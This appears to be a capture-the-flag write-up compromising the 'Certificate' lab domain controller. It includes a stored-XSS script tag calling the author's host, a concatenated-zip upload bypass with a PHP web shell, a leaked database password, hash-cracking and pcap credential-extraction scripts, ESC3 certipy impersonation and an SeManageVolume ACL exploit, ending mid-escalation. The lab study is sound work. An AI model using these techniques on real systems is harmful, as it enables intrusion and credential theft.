

## Summary

## Enumeration

We start with nothing, but we try an nmap scan.

```
# Nmap 7.97 scan initiated Wed Jul 16 10:51:45 2025 as: nmap -vv -sCV -oA nmap/certificate -Pn -T4 --min-rate 1000 -p- 10.10.11.71
Nmap scan report for 10.10.11.71
Host is up, received user-set (0.13s latency).
Scanned at 2025-07-16 10:51:46 HST for 331s
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
|_http-title: Did not follow redirect to http://certificate.htb/
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-07-17 04:55:44Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: certificate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2025-07-17T04:57:17+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Issuer: commonName=Certificate-LTD-CA/domainComponent=certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-04T03:14:54
| Not valid after:  2025-11-04T03:14:54
| MD5:     0252 f5f4 2869 d957 e8fa 5c19 dfc5 d8ba
| SHA-1:   779a 97b1 d8e4 92b5 bafe bc02 3388 45ff dff7 6ad2
| SHA-256: e451 258d 16d9 7f97 7629 698b 7952 4b74 fcb1 4cca b77f 5ce8 2aea 8599 fd38 3d26
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: certificate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2025-07-17T04:57:16+00:00; +7h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Issuer: commonName=Certificate-LTD-CA/domainComponent=certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-04T03:14:54
| Not valid after:  2025-11-04T03:14:54
| MD5:     0252 f5f4 2869 d957 e8fa 5c19 dfc5 d8ba
| SHA-1:   779a 97b1 d8e4 92b5 bafe bc02 3388 45ff dff7 6ad2
| SHA-256: e451 258d 16d9 7f97 7629 698b 7952 4b74 fcb1 4cca b77f 5ce8 2aea 8599 fd38 3d26
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: certificate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2025-07-17T04:57:17+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Issuer: commonName=Certificate-LTD-CA/domainComponent=certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-04T03:14:54
| Not valid after:  2025-11-04T03:14:54
| MD5:     0252 f5f4 2869 d957 e8fa 5c19 dfc5 d8ba
| SHA-1:   779a 97b1 d8e4 92b5 bafe bc02 3388 45ff dff7 6ad2
| SHA-256: e451 258d 16d9 7f97 7629 698b 7952 4b74 fcb1 4cca b77f 5ce8 2aea 8599 fd38 3d26
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: certificate.htb, Site: Default-First-Site-Name)
|_ssl-date: 2025-07-17T04:57:16+00:00; +7h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Issuer: commonName=Certificate-LTD-CA/domainComponent=certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-11-04T03:14:54
| Not valid after:  2025-11-04T03:14:54
| MD5:     0252 f5f4 2869 d957 e8fa 5c19 dfc5 d8ba
| SHA-1:   779a 97b1 d8e4 92b5 bafe bc02 3388 45ff dff7 6ad2
| SHA-256: e451 258d 16d9 7f97 7629 698b 7952 4b74 fcb1 4cca b77f 5ce8 2aea 8599 fd38 3d26
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49691/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         syn-ack Microsoft Windows RPC
49693/tcp open  msrpc         syn-ack Microsoft Windows RPC
49712/tcp open  msrpc         syn-ack Microsoft Windows RPC
49718/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Hosts: certificate.htb, DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 50770/tcp): CLEAN (Timeout)
|   Check 2 (port 62565/tcp): CLEAN (Timeout)
|   Check 3 (port 43669/udp): CLEAN (Timeout)
|   Check 4 (port 52308/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m59s
| smb2-time: 
|   date: 2025-07-17T04:56:38
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 16 10:57:17 2025 -- 1 IP address (1 host up) scanned in 331.62 seconds

```

This shows a web server and your typical Active Directory goodness.

We check dig for any zone-transfer, just on the off chance
```bash
dig axfr certificate.htb @$ip +noall +answer
; Transfer failed
```

SMB Null session gets authorized, but we cannot enumerate anything even --rid-brutes. The guest account is disabled.
```bash
nxc smb certificate.htb -u '' -p '' --pass-pol --verbose --rid-brute
[11:10:09] INFO     Socket info: host=10.10.11.71, hostname=certificate.htb, kerberos=False, ipv6=False, link-local ipv6=False                                                                                                connection.py:165
           INFO     Creating SMBv3 connection to 10.10.11.71                                                                                                                                                                         smb.py:606
[11:10:11] INFO     Creating SMBv1 connection to 10.10.11.71                                                                                                                                                                         smb.py:575
           INFO     SMBv1 disabled on 10.10.11.71                                                                                                                                                                                    smb.py:598
           INFO     Resolved domain: certificate.htb with dns, kdcHost: 10.10.11.71                                                                                                                                                  smb.py:321
SMB         10.10.11.71     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False)
           INFO     Creating SMBv3 connection to 10.10.11.71                                                                                                                                                                         smb.py:606
SMB         10.10.11.71     445    DC01             [+] certificate.htb\:
SMB         10.10.11.71     445    DC01             [-] Error connecting: LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
```

We can query for the domain sid via RPC but not much else,
```bash
rpclcient -U '' -N '//certificate.htb' -c 'lsaquery
```


The webserver is using the [`Eclipse`](https://preview.colorlib.com/#eclipse) theme from Colorlib
Looking at the base theme and what we have, the main difference is the login panel providing registration and well..logins. So my immediate suspicion goes there. The contact page submission has a different message after posting so that's also an avenue of exploration.


### Registration
We can register an account, but we can't view any profiles. The one thing to note is our username gets populated into the 'Welcome back' slogan. And we can surprisingly register with a username that contains script tags.
This is stored XXS


Some issues with registration:
- Username and email are apparently factors in uniqueness of an account.
- Usernames have seemingly length limitations for logins
- Quotes aren't allowed

Playing with the payload a bit, to figure out how what's allowed. Figuring out the discoveries above. 
I defaulted to
```html
<script src=http://$my_ip:8000/xxs.js>
```
Which provides me some call back
We have a potential chain here already viewing the clues.

Anything that renders our username will reflect this, teacher accounts apparently need approval, and we need to email them for approval.
So, my suspicion is we need to register a teacher with some stored xxs and when they come to check on it we should get a reply.

However, after attempting this nicely thought out plan to see if I ever get a call back from my server, led to some sadness.
So I went to explore more functionality of the website and I should have done this sooner, because I can upload files?



This seems more likely the way forward.


### Uploads
The site says it only accepts certain file extensions: PDF, docx, pptx, xlsx, and .zip
Depending on if they're interacted with and the versions they all could be potentially vulnerable, but let's just see if it's something easier with a simple php reverse shell first. My suspicion is no, given the newer PHP version and the use of HttpOnly cookies, you'd have to go out of your way to execute submitted assignments as php but...always try.

Uploading php content, even with the wrong extension leads to malicious content found. So it is likely running some type of content checking.
I tried XLS files but the header is also errored out for an invalid mimetype.
However, PDF, docx, ppt, and zip works and we get a visible link to our page.


The url is an md5sum, I was thinking it might be just the md5sum of our username, but that's not the case. It does change based on user, but not based on file, so IDOR doesn't seem likely.
I had played with a variety of different possibilities, trying to modify the content to see if an XXE injection was possible, but nothing would let me upload, and there was no guarantee that anyone is actually clicking anything.
So after some searching, there's apparently a method of [concatenating zip files](https://cybersecuritynews.com/hackers-employ-zip-file-concatenation/) that allows for extra malicious files to be tagged along, since content checkers typically only check the last `valid` zip entry, but unzippers are extra smart and detect another zip and unzip the whole archive.
So we craft a payload:

```bash
echo 'test' > z.pdf
echo '<?=`$_GET[0]`?>' > s.php
zip 1.zip z.pdf
zip 2.zip s.php
cat 1.zip 2.zip > 3.zip
```
You can then unzip this file to see the method at work,

Upload our 3.zip and we get a success:


So we can copy that link, and replace it with our shell file, that was also in the zip.
```bash
curl -s http://certificate.htb/static/uploads/3160192f554f27d2f295db22ef5556d9/s.php?0=whoami
certificate\xamppuser 
```
And we're in.
We can then just get a reverse shell, with revshells after url encoding it and now we navigate


## Foothold...now what?

Looking at `upload.php` in the web directory, does indeed verify that xlsx was just a lie. It also was using winrar to extract the zips and checking if more than one archive was there.
```php
<?
// snip
        // Validate file type
        $allowedMimeTypes = ['application/zip', 'application/vnd.openxmlformats-officedocument.wordprocessingml.document', 'application/pdf', 'application/vnd.openxmlformats-officedocument.presentationml.presentation'];
        $allowedExtensions = ['zip', 'docx', 'pdf', 'pptx'];

// snip

        if ($fileExtension === 'zip') {
                // Extract ZIP file contents
                $zip = new ZipArchive();
                if ($zip->open($fileTmpPath) === true) {
                        if ($zip->count() > 1) {
                                $message = "Please Include a single assignment file in the archive";
                                exit;
                        } else {
                                $innerFileName = $zip->getNameIndex(0);
                                if (!in_array(pathinfo($innerFileName, PATHINFO_EXTENSION), $allowedExtensions)) {
                                        http_response_code(400);
                                        echo "<h1>400 Bad Request</h1>";
                                        echo "<p>The request you sent contains bad or malicious content(Invalid Extension).</p>";
                                        exit;
                                }
                        }
                        echo exec('"C:\\Program Files\\WinRAR\\WinRAR.exe" x -y ' . $fileTmpPath . " " . $destinationDir);
                        $zip->close();
                        // echo "ZIP file successfully extracted to: $destinationDir";
                        $message = "File uploaded successfully!. You can check your uploaded assignment file(in case you want to re-upload it or do some changes) <a href='static/uploads/$md5Directory/$innerFileName'>HERE</a>";
                } else {
                        echo "Failed to open the ZIP file.";
                        exit;
                }
?>
```

And in side this web folder there is a db.php. This houses some mysql local credentials.

```php
<?php
// Database connection using PDO
try {
    $dsn = 'mysql:host=localhost;dbname=Certificate_WEBAPP_DB;charset=utf8mb4';
    $db_user = 'certificate_webapp_user'; // Change to your DB username
    $db_passwd = 'cert!f!c@teDBPWD'; // Change to your DB password
    $options = [
        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    ];
    $pdo = new PDO($dsn, $db_user, $db_passwd, $options);
} catch (PDOException $e) {
    die('Database connection failed: ' . $e->getMessage());
}
?>
```

Searching around in this xampp directory, leads us to the mysql folder, it has a binary with which we can dump the database in a readable format (as opposed to using `type users.ibd`)
```powershell
C:\xampp\mysql\bin\mysqldump.exe -u certificate_webapp_user -p'$PASS' certificate_webapp_db
```
This reveals some users with their hashes: I reformatted it for readability.
```text
username,password
Lorra.AAA,$2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG
Sara1200,$2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK
Johney,$2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq
havokww,$2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti
stev,$2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2
sara.b,$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6
```


The next obvious thing is to try and crack these hashes, even though they're bcrypt which is pretty computationally complex, what else do we have? Oh we also try a kerbrute to see which usernames might be valid elsewhere.

```bash
kerbrute userenum -d certificate.htb --dc dc01.certificate.htb users.txt
```
```

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 08/01/25 - Ronnie Flathers @ropnop

2025/08/01 09:54:26 >  Using KDC(s):
2025/08/01 09:54:26 >   dc01.certificate.htb:88

2025/08/01 09:54:26 >  [+] VALID USERNAME:       sara.b@certificate.htb
2025/08/01 09:54:31 >  Done! Tested 12 usernames (1 valid) in 5.511 seconds

```

```bash
hashcat users.hashes /seclists/rockyou.txt
# $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6:Bl----

```
reveals one crack for... sara.b

I verified these credentials with:
```bash
nxc smb certificate.htb -u sara.b -p $pass
SMB         10.10.11.71     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.71     445    DC01             [+] certificate.htb\sara.b:$pass
```

## Lateral Movement
We're in. Next I ran rusthound to gather some active-directory data. It does reveal that we have winrm and *remote desktop* access, so we can probably grab a flag.

After running rusthound, I have a a python script that quickly tells me all the groups with the users underneath so I have a decent idea of what we should look for, for reference. Bloodhound requires a tad bit more clicking to get that information.

```bash
./bh_uniques.py -z 20250801110257_certificate-htb_rusthound-ce.zip
```

```
ADMINISTRATORS@CERTIFICATE.HTB
  - ADMINISTRATOR

GUESTS@CERTIFICATE.HTB
  - GUEST

REMOTE MANAGEMENT USERS@CERTIFICATE.HTB
  - RYAN.K
  - LION.SK

SCHEMA ADMINS@CERTIFICATE.HTB
  - ADMINISTRATOR

ENTERPRISE ADMINS@CERTIFICATE.HTB
  - ADMINISTRATOR

DOMAIN ADMINS@CERTIFICATE.HTB
  - ADMINISTRATOR

GROUP POLICY CREATOR OWNERS@CERTIFICATE.HTB
  - ADMINISTRATOR

DENIED RODC PASSWORD REPLICATION GROUP@CERTIFICATE.HTB
  - KRBTGT

DOMAIN CRA MANAGERS@CERTIFICATE.HTB
  - ALEX.D
  - EVA.F
  - LION.SK

FINANCE@CERTIFICATE.HTB
  - MAYA.K

HR@CERTIFICATE.HTB
  - KARA.M
  - NYA.S

MARKETING@CERTIFICATE.HTB
  - AKEDER.KH
  - KAI.X

HELP DESK@CERTIFICATE.HTB
  - SAAD.M
  - AYA.W
  - JOHN.C
  - SARA.B

DOMAIN STORAGE MANAGERS@CERTIFICATE.HTB
  - RYAN.K
```

So we have Sara.b who's a member of help desk, and other possibly interesting users, could be the `Domain CRA Managers`, `Finance`, `Marketing`, or `Domain Storage Managers` 

Logging in via winrm with the sara.b user already reveals something interesting.
```powershell
gci -recurse
```

```


    Directory: C:\Users\Sara.B\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        11/4/2024  12:53 AM                WS-01


    Directory: C:\Users\Sara.B\Documents\WS-01


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/4/2024  12:44 AM            530 Description.txt
-a----        11/4/2024  12:45 AM         296660 WS-01_PktMon.pcap
```


a pcap file, and a description, which tells us there's some bugginess going with the WS-01 computer with smb authentication. So let's investigate this pcap file. 
Downloading it checking what kind of packets we have.
```bash
tshark -r WS-01_PktMon.pcap -T fields -e tcp.dstport -e udp.dstport | sort -nu | head

        53
88
135
        389
445
49667
49673
49692
49693
```

We have some DNS, some kerberos (oddly), some RPC, LDAP, and SMB.

The issue was the SMB initially so we can actually grab all the ntlm hashes and see if we can crack any, since credentials were given. This script I devised outputs them in hashcat format, since there's quite a bit, you never know if they mistyped and had *close* credentials that could be cracked.
```bash
#!/usr/bin/env bash

pcap=$1


data_dump=$(tshark -r $pcap -Y 'ntlmssp' -T fields -e ntlmssp.auth.username -e ntlmssp.ntlmserverchallenge  -e ntlmssp.ntlmv2_response.nb_domain_name -e ntlmssp.ntlmv2_response.ntproofstr -e ntlmssp.ntlmv2_response | sed '/^[[:space:]]*$/d')

mapfile -t lines <<< "$data_dump"

for (( i=0; i<${#lines[@]}-1; i+=2)); do
    challenge=$(echo -n "${lines[i]}"  | tr -d '[:space:]')
    IFS=$'\t' read -r user domain ntproof full_blob <<< "${lines[i+1]}"
    if [[ -n "$user" && -n "$domain" && -n "$challenge" && -n "$ntproof" && -n "$full_blob" ]]; then
    blob="${full_blob#$ntproof}"
    echo "$user::$domain:$challenge:$ntproof:${blob}"
    fi
done
```


```bash
./dump_ntlm_hashes.sh WS-01_PktMon.pcap > smb_hashes
hashcat smb_hashes /seclists/rockyou.txt
```

Provides us unfortunately with nothing. If you inspect the hashes, that would have been the admin hash, which would have been great.

So unlikely for credential access there, but the other aspect we saw was kerberos.

```bash
tshark -r WS-01_PktMon -Y 'kerberos'
```

Then we can do something similar targeting the AS-REQ since the user's hash will get passed as authentication. A modified script for the kerberos ones. Inspecting the user here is a different one...we have lion.sk who was a member of the `Domain CRA Managers` which may be useful

```bash
#!/usr/bin/env bash

pcap=$1

# Capture the Kerberos AS-REP messages
data_dump=$(tshark -r "$pcap" -Y 'kerberos.msg_type == 10' \
  -T fields -e kerberos.CNameString -e kerberos.realm -e kerberos.cipher)

# Process each line
while IFS=$'\t' read -r user domain hash; do
    [[ -z $user || -z $domain || -z $hash ]] && continue
    echo "\$krb5pa\$18\$$user\$$domain\$$hash"
done <<< "$data_dump"
```

```bash
./dump_krb5ASREQ_pcap.sh WS-01_PktMon.pcap > lion_sk.hash
hashcat lion_sk.hash /seclists/rockyou.txt

```
```text
$krb5pa$18$Lion.SK$CERTIFICATE$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0:!QA<redacted>
```

So we have it. These credentials do indeed work, so what can lion.sk do?

They're a part of the `Domain CRA Managers` which is reponsible for issuing and revoking certificates. And this domain doesn't have the typical `User` template, it has `SignedUser` which requires a signed certificate to issue it. This member allows us to issue to request a certificate and then issue new user certificates on behalf of other users. This likely won't work for every user, but we'll have to see.


```bash
certipy find -u lion.sk -p  $pass -target certificate.htb -dc-ip 10.10.11.71 -enabled -output cert_enabled
```

```json
  "Certificate Templates": {
    "0": {
      "Template Name": "Delegated-CRA",
      "Display Name": "Delegated-CRA",
      "Certificate Authorities": [
        "Certificate-LTD-CA"
      ],
      "Enabled": true,
      "Client Authentication": false,
      "Enrollment Agent": true,
      "Any Purpose": false,
      "Enrollee Supplies Subject": false,
      "Certificate Name Flag": [
        33554432,
        67108864,
        536870912,
        2147483648
      ],
      "Enrollment Flag": [
        1,
        8,
        32
      ],
      "Private Key Flag": [
        16
      ],
      "Extended Key Usage": [
        "Certificate Request Agent"
      ],
      "Requires Manager Approval": false,
      "Requires Key Archival": false,
      "Permissions": {
        "Enrollment Permissions": {
          "Enrollment Rights": [
            "CERTIFICATE.HTB\\Domain CRA Managers",
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ]
        },
        "Object Control Permissions": {
          "Owner": "CERTIFICATE.HTB\\Administrator",
          "Full Control Principals": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ],
          "Write Owner Principals": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ],
          "Write Dacl Principals": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ],
          "Write Property Enroll": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ]
        }
      },
      "[+] User Enrollable Principals": [
        "CERTIFICATE.HTB\\Domain CRA Managers"
      ],
      "[!] Vulnerabilities": {
        "ESC3": "Template has Certificate Request Agent EKU set."
      }
    },
    "1": {
      "Template Name": "SignedUser",
      "Display Name": "Signed User",
      "Certificate Authorities": [
        "Certificate-LTD-CA"
      ],
      "Enabled": true,
      "Client Authentication": true,
      "Enrollment Agent": false,
      "Any Purpose": false,
      "Enrollee Supplies Subject": false,
      "Certificate Name Flag": [
        33554432,
        67108864,
        536870912,
        2147483648
      ],
      "Enrollment Flag": [
        1,
        8,
        32
      ],
      "Private Key Flag": [
        16
      ],
      "Extended Key Usage": [
        "Client Authentication",
        "Secure Email",
        "Encrypting File System"
      ],
      "Requires Manager Approval": false,
      "Requires Key Archival": false,
      "RA Application Policies": [
        "Certificate Request Agent"
      ],
      "Authorized Signatures Required": 1,
      "Permissions": {
        "Enrollment Permissions": {
          "Enrollment Rights": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Domain Users",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ]
        },
        "Object Control Permissions": {
          "Owner": "CERTIFICATE.HTB\\Administrator",
          "Full Control Principals": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ],
          "Write Owner Principals": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ],
          "Write Dacl Principals": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ],
          "Write Property Enroll": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Domain Users",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ]
        }
      },
      "[+] User Enrollable Principals": [
        "CERTIFICATE.HTB\\Domain Users"
      ],
      "[*] Remarks": {
        "ESC3 Target Template": "Template can be targeted as part of ESC3 exploitation. This is not a vulnerability by itself. See the wiki for more details. Template requires a signature with the Certificate Request Agent application policy."
      }
    },

```

We can see the the Delegated-CRA certificate is an enrollment agent certificate, with which we can enroll on behalf of other users.
The [certipy wiki](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc3-enrollment-agent-certificate-template) details the attack flow.
Request the delegated
```bash
certipy req -u lion.sk -p $pass -dc-ip 10.10.11.71 -target certificate.htb -ca certificate-ltd-ca -template delegated-cra 
```

Request on behalf
```bash
certipy req -u lion.sk -p $pass -dc-ip 10.10.11.71 -target certificate.htb -ca certificate-ltd-ca -template SignedUser  -pfx $lionsk_cert -on-behalf-of 'Administrator'

[*] Requesting certificate via RPC
[*] Request ID is 24
[-] Got error while requesting certificate: code: 0x80094812 - CERTSRV_E_SUBJECT_EMAIL_REQUIRED - The email name is unavailable and cannot be added to the Subject or Subject Alternate name.

```

And that delightfully fails due to the email name being unavailable. So what other user might be valuable to try? The only one that is a part of a group that we don't have real access too that seems exploitable is `Ryan.K` who in the `Domain Storage Managers` which, on its surface sounds great and isn't a default group.

```bash
certipy  req -u 'lion.sk' -p $pass -dc-ip 10.10.11.71 -target certificate.htb -ca certificate-ltd-ca -template 'SignedUser' -pfx lion.sk.pfx -on-behalf-of ryan.k
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 23
[*] Successfully requested certificate
[*] Got certificate with UPN 'ryan.k@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saving certificate and private key to 'ryan.k.pfx'
[*] Wrote certificate and private key to 'ryan.k.pfx'
```

We have a certificate for ryan, so let's auth, not forgetting the clock skew.

```bash
faketime -f +8hr $HOME/.local/bin/certipy auth -pfx ryan.k.pfx  -dc-ip 10.10.11.71
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ryan.k@certificate.htb'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
File 'ryan.k.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:<redacted>
```

That works! So we can login with kerberos or the hash, I'll use the hash for simplicity. Then we can see what permissions this fella might have.

```powershell
whoami /priv
```

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled

```

`SeManageVolumePrivilege`
This is apparently an exploitable privilege, that I had never known about. A simple [exe](https://github.com/CsEnox/SeManageVolumeExploit) can be ran that actually grants full permissions for most of the drive and potentially shell acess. How it's hardcoded just goes through replacing Admin SIDS with the Users SID, which we can see in the icacls output.
However, there's something else that might be of interest since we're on the DC and there's no other pivot points here, there's going to be the root certificate on the machine. So if we run `certutil -store My` we would be querying the Cryptographic Service Provider or CSP for the private key, it obviously knows where the private keys are but unless we have read access we can't export them. But perhaps this the SeManageVolumeExploit will let us export the Root-CA and with that, we would be able to do whatever we want, since we could forge certificates, create templates, anything we want, it's a Golden Certificate.


```powershell
icacls C:\Programdata\Microsoft\Crypto\RSA
# C:\Programdata\Microsoft\Crypto\RSA NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
#                                     BUILTIN\Administrators:(I)(OI)(CI)(F)
#                                     BUILTIN\Pre-Windows 2000 Compatible Access:(I)(OI)(CI)(RX)
#                                     Everyone:(I)(OI)(CI)(RX)

#Successfully processed 1 files; Failed processing 0 files
 .\Semanage*
#Entries changed: 856
#
#DONE
#
icacls C:\Programdata\Microsoft\Crypto\RSA
#C:\Programdata\Microsoft\Crypto\RSA NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
#                                    BUILTIN\Users:(I)(OI)(CI)(F)
#                                    BUILTIN\Pre-Windows 2000 Compatible Access:(I)(OI)(CI)(RX)
#                                    Everyone:(I)(OI)(CI)(RX)
#
